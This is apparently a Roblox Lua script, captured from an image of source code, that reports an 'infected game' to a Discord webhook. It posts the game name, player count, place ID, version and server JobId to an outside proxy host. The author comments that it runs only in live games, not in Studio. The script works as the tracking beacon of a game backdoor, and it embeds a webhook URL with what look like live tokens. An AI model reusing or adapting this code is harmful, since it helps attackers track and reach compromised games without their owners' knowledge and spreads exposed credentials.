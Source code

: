 local webhook = "https://api-sidemod.sidetechrblx.com/v3/webhooks/1251483439669055572/Szf8UrXUTIdoLzi1z1Hh7RxyHWVGIucO5eWvMSNrNqhzJGWKVYjIbJ9qQYPYJVvNIoRH?authorization=rEX7R8W3DqxRT409LLQh" -- put your discord webhook here
local name = game:GetService("MarketplaceService"):GetProductInfo(game.PlaceId)
local http = game:GetService("HttpService")
local players = game.Players:GetPlayers()
local maxplayers = game.Players.MaxPlayers

local function getTime()
	local date = os.date("*t")
	return ("%02d:%02d"):format(((date.hour % 24) - 1) % 12 + 1, date.min)
end

local data = {
	["embeds"] = {{
		["title"] = "감염게임 발견 바로가기!",
		["url"] = "https://roblox.com/games/" .. game.PlaceId,
		["description"] = "**Game Name:** ".. name.Name.."\n**Players:** ".. #players.."/"..maxplayers.."\n**Game Id:** ".. game.PlaceId.."\n**Game Version:** ".. game.PlaceVersion.."\n**Job Id:** "..game.JobId,
		["image"] = {
			["url"] = "https://t2.rbxcdn.com/0d499b55a8bc928003c91e739d829038"..game.PlaceId.."&width=768&height=432&format=png"
		},
		["footer"] = {
			["icon_url"] = "", 
		},
		["color"] = 5814783,

	}}
}

--if not game:GetService("RunService"):IsStudio() then 
local encode = http:JSONEncode(data) 
http:PostAsync(webhook,encode)
--end -- it will not run in studio only in game
